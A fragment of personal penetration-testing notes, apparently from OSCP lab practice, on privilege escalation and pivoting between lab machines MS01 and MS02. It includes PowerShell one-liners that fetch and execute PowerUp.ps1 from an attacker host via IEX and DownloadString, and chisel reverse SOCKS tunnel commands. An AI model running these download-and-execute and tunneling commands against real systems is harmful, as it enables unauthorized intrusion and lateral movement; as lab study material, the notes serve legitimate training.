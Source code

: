 
![[alice local.txt.png]]

- going to attempt to privilege escalate using power up again
```powershell

echo IEX(New-Object Net.WebClient).DownloadString('http://172.16.118.101:443/PowerUp.ps1') | powershell -noprofile -

echo IEX(New-Object Net.WebClient).DownloadString('http://172.16.118.101:4430/PowerUp.ps1') | powershell -noprofile -
```

- transferred over chisel.exe onto t2 to make proxychains work
![[chisel transfer to ms02.png]]

- setting up chisel again 

```shell
# original chisel client on ms01
chisel_1.8.1_windows_amd64 client 192.168.49.118:8000 R:1080:socks

# chisel server on ms01
#./chisel server -p 8002 --reverse
chisel_1.8.1_windows_amd64.exe server -p 8002 --reverse
```

![[server chisel on ms01.png]]


- on ms02 setup chisel client

```shell

#Run command on ms02
chisel_1.8.1_windows_amd64.exe client 172.16.118.101:8002 R:2080:socks
```


![[Penetration Testing v2/oscp pass 20230412/AD Set/MS01 192.168.118.101/screenshots/full setup chisel.png]]



What did i do so far:

Kali Machine is listening on port 1080 from port 8000.

ms01 is forwarding 


Working - actual - correct chisel client
```shell
#setting up chisel again
chisel_1.8.1_windows_amd64.exe client 192.168.49.118:8000 R:1080:socks 4430:192.168.49.118:443  
  
And to call back and invoke power up.ps1  

#working powerup.ps1
PS C:\Users\Alice.Walters> IEX(New-Object Net.WebClient).downloadString('http://172.16.118.101:4430/PowerUp.ps1')
Get-Acl : Attempted to perform an unauthorized operation.
At line:898 char:17
+                 Get-Acl -Path $CandidatePath | Select-Object -ExpandP ...
+                 ~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : NotSpecified: (:) [Get-Acl], UnauthorizedAccessException
    + FullyQualifiedErrorId : System.UnauthorizedAccessException,Microsoft.PowerShell.Commands.GetAclCommand



ServiceName                     : mysql
```